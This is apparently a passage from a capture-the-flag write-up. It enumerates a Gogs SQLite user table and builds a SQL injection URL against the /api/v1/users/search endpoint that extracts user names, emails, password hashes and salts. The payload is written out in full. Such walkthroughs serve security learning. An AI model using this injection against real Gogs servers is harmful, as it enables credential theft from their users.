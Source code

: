 #### Enumerate Users Table

It says it made the DB in `data/gogs.db`. I'll check that out:



    oxdf@hacky$ sqlite3 data/gogs.db 
    SQLite version 3.31.1 2020-01-27 19:55:54
    Enter ".help" for usage hints.
    sqlite> .schema user
    CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `passwd` TEXT NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER NOT NULL DEFAULT 0, `login_name` TEXT NULL, `type` INTEGER NULL, `num_followers` INTEGER NULL, `num_followings` INTEGER NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `location` TEXT NULL, `website` TEXT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `rands` TEXT NULL, `salt` TEXT NULL, `created` NUMERIC NULL, `updated` NUMERIC NULL, `description` TEXT NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL);
    CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
    CREATE UNIQUE INDEX `UQE_user_email` ON `user` (`email`);
    CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);



Those are the 27 columns I noticed in the exploit. `name` is the third
column.

I want the name, email, password, and salt for each user. I'll update
the query, using `||` to concatenate in SQLite:



    http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-



This works locally:

![](/img/image-20230106172659400.png)

#### Get Hash

I'll update the script to get this same URL on Health:
